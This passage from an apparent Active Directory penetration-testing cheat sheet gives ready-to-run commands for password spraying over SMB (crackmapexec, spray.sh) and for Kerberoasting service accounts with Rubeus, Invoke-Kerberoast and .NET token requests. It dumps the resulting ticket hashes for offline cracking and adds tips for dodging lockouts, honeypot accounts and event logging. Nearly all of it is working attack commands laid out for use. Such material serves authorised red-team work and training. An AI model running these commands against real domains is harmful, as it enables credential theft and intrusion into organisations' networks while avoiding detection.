 ```
Get-DomainPolicyData
```

### Spraying
#### SMB
- Spray easy guessable passwords against all these users
- Make sure to keep enough login attempts for the user!
- https://github.com/Greenwolf/Spray
```
crackmapexec smb <DC IP> -u <USER FILE> -p <PASSWORD FILE> --continue-on-success
```

```
spray.sh -smb <DC IP> <USER FILE> <PASSWORD FILE> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <DOMAIN>
```

#### Reset password remotely
- Usefull for when the password is expired or set to MUST CHANGE
- [Link](Post-Exploitation.md#resetting-a-password-remotely)

## Kerberoast
- https://github.com/GhostPack/Rubeus
#### Find user accounts used as service accounts
```
Get-DomainUser -SPN
Get-DomainUser -SPN | select samaccountname,serviceprincipalname
```

```
Rubeus.exe kerberoast /stats
```

```
.\ADSearch.exe --search "(&(sAMAccountType=805306368)(servicePrincipalName=*))"
```

#### Reguest a TGS
- OPSEC: Watch out for honeypot accounts, Generates Event 4769, Kerberoast specific users only!
```
./Rubeus.exe kerberoast /user:<SERVICEACCOUNT> /simple /outfile:kerberoast_hashes.txt

./Rubeus.exe kerberoast /rc4opsec /user:<SERVICEACCOUNT> /domain:<DOMAIN> /outfile:kerberoast_hashes.txt
```

```
Invoke-Kerberoast -Outputformat hashcat
```

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>@<FQDN>"
```
